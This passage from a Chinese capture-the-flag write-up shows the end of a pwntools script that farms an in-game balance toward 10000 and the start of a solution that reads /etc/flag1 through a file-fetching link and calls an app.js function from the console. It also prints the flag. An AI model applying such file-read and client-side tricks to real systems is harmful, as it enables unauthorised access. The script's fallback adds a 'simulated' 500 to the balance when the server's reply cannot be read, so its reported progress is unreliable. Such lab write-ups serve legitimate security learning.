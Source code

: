 ```python
        balance_match = re.search(r"余额[:：]\s*(\d+)", balance_resp.decode(errors="ignore"))
        if balance_match:
            balance = int(balance_match.group(1))
            log.success(f"从服务端获取余额: {balance}")
        else:
            gain = 500
            balance += gain
            log.info("模拟账户余额更新: 当前余额 = {}".format(balance))
    except Exception as e:
        log.warning(f"读取交易结果超时: {e}")
        gain = 500
        balance += gain
        log.info("模拟账户余额更新: 当前余额 = {}".format(balance))

    target = 10000
    if balance >= target:
        log.success(f"达到目标! 当前余额 {balance} >= 目标 {target}")
        break

    try:
        all_data = p.recv(timeout=1)
        log.info("收到所有数据: " + all_data.decode(errors="ignore").strip())
    except Exception as e:
        log.warning("读取所有数据超时")

final_output = p.recvall(timeout=5)
log.success("最终返回数据:")
print(final_output.decode(errors="ignore"))

p.close()
```


<div STYLE="page-break-after: always;"></div>

## FiveElementColorFlood

flag：geesec{vniq15sdanub-3a8b26aee5-oJQjpShVldkteWGV}

题解：

第一段flag1在靶机/etc/flag1，发现最后一个链接可以用来获取文件，第一段flag是 vniq15sdanub

![FiveElementColorFlood](/images/ctf/yinjianctf2025/2.webp)

观察app.js，发现

![app.js](/images/ctf/yinjianctf2025/3.webp)

尝试在控制台手动调用该函数

![app.js](/images/ctf/yinjianctf2025/4.webp)
